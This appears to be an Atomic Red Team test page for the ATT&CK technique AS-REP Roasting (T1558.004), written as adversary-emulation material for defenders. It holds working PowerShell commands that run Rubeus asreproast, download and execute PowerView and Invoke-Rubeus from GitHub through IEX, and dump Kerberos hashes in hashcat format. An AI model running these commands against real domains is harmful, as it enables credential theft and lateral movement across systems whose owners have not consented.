 # T1558.004 - Steal or Forge Kerberos Tickets: AS-REP Roasting

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1558/004)

<blockquote>Adversaries may reveal credentials of accounts that have disabled Kerberos preauthentication by [Password Cracking](https://attack.mitre.org/techniques/T1110/002) Kerberos messages.(Citation: Harmj0y Roasting AS-REPs Jan 2017)

Preauthentication offers protection against offline [Password Cracking](https://attack.mitre.org/techniques/T1110/002). When enabled, a user requesting access to a resource initiates communication with the Domain Controller (DC) by sending an Authentication Server Request (AS-REQ) message with a timestamp that is encrypted with the hash of their password. If and only if the DC is able to successfully decrypt the timestamp with the hash of the user’s password, it will then send an Authentication Server Response (AS-REP) message that contains the Ticket Granting Ticket (TGT) to the user. Part of the AS-REP message is signed with the user’s password.(Citation: Microsoft Kerberos Preauth 2014)

For each account found without preauthentication, an adversary may send an AS-REQ message without the encrypted timestamp and receive an AS-REP message with TGT data which may be encrypted with an insecure algorithm such as RC4. The recovered encrypted data may be vulnerable to offline [Password Cracking](https://attack.mitre.org/techniques/T1110/002) attacks similarly to [Kerberoasting](https://attack.mitre.org/techniques/T1558/003) and expose plaintext credentials. (Citation: Harmj0y Roasting AS-REPs Jan 2017)(Citation: Stealthbits Cracking AS-REP Roasting Jun 2019)

An account registered to a domain, with or without special privileges, can be abused to list all domain accounts that have preauthentication disabled by utilizing Windows tools like [PowerShell](https://attack.mitre.org/techniques/T1059/001) with an LDAP filter. Alternatively, the adversary may send an AS-REQ message for each user. If the DC responds without errors, the account does not require preauthentication and the AS-REP message will already contain the encrypted data. (Citation: Harmj0y Roasting AS-REPs Jan 2017)(Citation: Stealthbits Cracking AS-REP Roasting Jun 2019)

Cracked hashes may enable [Persistence](https://attack.mitre.org/tactics/TA0003), [Privilege Escalation](https://attack.mitre.org/tactics/TA0004), and [Lateral Movement](https://attack.mitre.org/tactics/TA0008) via access to [Valid Accounts](https://attack.mitre.org/techniques/T1078).(Citation: SANS Attacking Kerberos Nov 2014)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Rubeus asreproast](#atomic-test-1---rubeus-asreproast)

- [Atomic Test #2 - Get-DomainUser with PowerView](#atomic-test-2---get-domainuser-with-powerview)

- [Atomic Test #3 - WinPwn - PowerSharpPack - Kerberoasting Using Rubeus](#atomic-test-3---winpwn---powersharppack---kerberoasting-using-rubeus)

<br/>

## Atomic Test #1 - Rubeus asreproast

Information on the Rubeus tool and it's creators found here: https://github.com/GhostPack/Rubeus#asreproast
This build targets .NET 4.5. If targeting a different version you will need to compile Rubeus

**Supported Platforms:** Windows

**auto_generated_guid:** 615bd568-2859-41b5-9aed-61f6a88e48dd

#### Inputs:

| Name             | Description                           | Type   | Default Value                                                                                                  |
| ---------------- | ------------------------------------- | ------ | -------------------------------------------------------------------------------------------------------------- |
| local_folder     | Local path of Rubeus executable       | path   | PathToAtomicsFolder&#92;..&#92;ExternalPayloads                                                                |
| local_executable | name of the rubeus executable         | string | rubeus.exe                                                                                                     |
| out_file         | file where command results are stored | string | rubeus_output.txt                                                                                              |
| rubeus_url       | URL of Rubeus executable              | url    | https://github.com/morgansec/Rubeus/raw/de21c6607e9a07182a2d2eea20bb67a22d3fbf95/Rubeus/bin/Debug/Rubeus45.exe |

#### Attack Commands: Run with `powershell`!

```powershell
cmd.exe /c "#{local_folder}\#{local_executable}" asreproast /outfile:"#{local_folder}\#{out_file}"
```

#### Cleanup Commands:

```powershell
Remove-Item "#{local_folder}\#{out_file}" -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: Computer must be domain joined

##### Check Prereq Commands:

```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Write-Host Joining this computer to a domain must be done manually
```

##### Description: Rubeus must exist

##### Check Prereq Commands:

```powershell
if(Test-Path -Path "#{local_folder}\#{local_executable}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-Webrequest -Uri #{rubeus_url} -OutFile #{local_folder}\#{local_executable}
```

<br/>
<br/>

## Atomic Test #2 - Get-DomainUser with PowerView

Utilizing PowerView, run Get-DomainUser to identify domain users. Upon execution, progress and info about users within the domain being scanned will be displayed.

**Supported Platforms:** Windows

**auto_generated_guid:** d6139549-7b72-4e48-9ea1-324fc9bdf88a

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
```

<br/>
<br/>

## Atomic Test #3 - WinPwn - PowerSharpPack - Kerberoasting Using Rubeus

PowerSharpPack - Kerberoasting Using Rubeus technique via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 8c385f88-4d47-4c9a-814d-93d9deec8c71

#### Attack Commands: Run with `powershell`!

```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1')
Invoke-Rubeus -Command "asreproast /format:hashcat /nowrap"
```

<br/>

